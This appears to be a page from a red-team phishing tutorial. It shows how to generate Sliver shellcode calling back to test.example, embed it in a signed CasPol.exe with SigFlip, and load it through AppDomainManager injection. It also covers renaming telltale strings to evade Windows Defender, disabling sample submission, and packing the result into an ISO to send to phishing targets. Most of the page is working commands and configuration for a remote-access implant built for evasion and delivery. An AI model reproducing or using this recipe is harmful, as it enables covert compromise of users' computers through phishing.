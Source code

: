 +++
title = "Better Payload Generation"
weight = 110
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

### Get frostbyte

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github.

### Generate shellcode

In a sliver shell we need to run the following to generate some shellcode to be used later. We'll use `test.example` as the callback domain, we will add an entry to the Windows hosts file.

```bash
generate --mtls test.example -f shellcode --save implants/shellcodex64.bin
```

Copy the shellcode to your `Desktop\frostbyte-main` folder on the windows machine.

### Setup Files for New Payload

```bat
cd Desktop\frostbyte-main
mkdir AuthHelper
mkdir AuthHelper\dist\
copy Update.exe.config AuthHelper\dist\AuthHelper.exe.config
copy test.cs AuthHelper\AuthHelper.cs
cd AuthHelper
```

### Run SigFlip

Now that we have things setup we can run `SigFlip` to encode our shellcode into the `CasPol.exe` and save it as `AuthHelper.exe` in our newly created `AuthHelper` folder.

```bat
..\SigFlip.exe -i "..\CasPol.exe" "..\shellcodex64.bin" ".\dist\AuthHelper.exe" "PYLD4ME"
```

Pay attention to the output. I had to make note of the padding value and add it to two lines in the `.cs` file

### Update `dist\AuthHelper.exe.config`

- We need to replace `test` with our executabe name our executable name without the extenaion (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

### Update AuthHelper\AuthHelper.cs

Now we need to update the `AuthHelper.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging on lines `154` and `161`
- replace `S3cretK3y` with `PYLD4ME`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `certData`
- replace all instances of `ClassExample` with `AuthHelper`
- replace all instances of `Executing Beacon!` with `Begin Execution!`
- replace all instances of `Decrypt` with `CheckAuth`
- replace all instances of `ExecShellcode` with `Authorize`
- Update `_peBlob.Length+2` to be `_peBlob.Length+10`


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:dist\AuthHelper.dll AuthHelper.cs
```

### Prepare for Testing

We need to modify `C:\Windows\System32\drivers\etc\hosts` and add an entry for `test.example`.

- Run notepad as administrator
![Run Notepad as Administrator](/static/how-to-phishing/notepad-runas.png)

- Ensure you have show all files selected 
![Notepad Show All Files](/static/how-to-phishing/notepad-open-allfiles.png)

- Browse to `C:\Windows\System32\drivers\etc\`
- Add en antry for `test.example` to go to your Linux box runnning `sliver`.
![Windows Hosts File Entry](/static/how-to-phishing/windows-hosts-entry.png)

We should also set defender to not send off samples.

- Open Windows Defender
![Defender Tray Entry](/static/how-to-phishing/defender-tray.png)

- Select **Virus & threat protection** from the left side navigation.
- Click **Manage settings**
![Defender Settings](/static/how-to-phishing/defender-settings.png)

- Turn off sample submission
![Defender Sample Submission](/static/how-to-phishing/defender-sample-submission.png)

### Testing

Now we should be able to open out `dist` folder and run the `AuthHelper.exe`.
![Better Payload Testing](/static/how-to-phishing/better-payload-testing.png)

We should be see a new session popup in Sliver
![Better Payload Testing Sliver](/static/how-to-phishing/better-payload-testing-sliver.png)

Now would be a good time to fine tune our code, remove debugging messages, or add a nice special message that says "Good job! Now your more secure!!". 

### PackMyPayload

Now that we have a nice payload, lets pack it up so we can send it to our phishing targets. We'll use [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)


```bash
sudo apt install python3-pip
cd ~/opt
git clone https://github.com/mgeeky/PackMyPayload.git
cd PackMyPayload
python3 -m pip install -r requirements.txt
```

Copy dist folder to your linux VM. I put it in `~/Desktop/op/payloads/AuthHelper/`.

```bash
cd ~/Desktop/op/payloads/AuthHelper
python3 ~/opt/PackMyPayload/PackMyPayload.py --hide AuthHelper.dll,AuthHelper.exe.config dist AuthHelper.iso -v
```

Now we should have a nice `.iso` file we can send users.
![PackMyPayload](/static/how-to-phishing/packmypayload.png)

### Testing... Again

Now we need to test again to make sure everything is working as designed. Copy the `AuthHelper.iso` to the windows machine. We'd hate for users to receive this message instead of us getting a new session:

![Error](/static/how-to-phishing/iso-mount-error.png)

